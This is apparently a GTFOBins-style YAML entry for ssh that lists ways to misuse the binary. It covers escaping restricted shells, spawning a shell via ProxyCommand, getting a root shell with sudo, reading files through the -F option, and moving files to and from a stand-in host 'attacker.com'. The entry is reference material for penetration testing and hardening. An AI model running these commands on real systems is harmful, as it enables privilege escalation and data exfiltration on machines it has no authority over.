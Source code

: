 ```yaml
---
functions:
  shell:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost $SHELL --noprofile --norc
    - description: Spawn interactive shell through ProxyCommand option.
      code: ssh -o ProxyCommand=';sh 0<&2 1>&2' x
  file-upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
  file-download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=file_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  file-read:
    - description: The read file content is corrupted by error prints.
      code: |
        LFILE=file_to_read
        ssh -F $LFILE localhost
  sudo:
    - description: Spawn interactive root shell through ProxyCommand option.
      code: sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
---
```

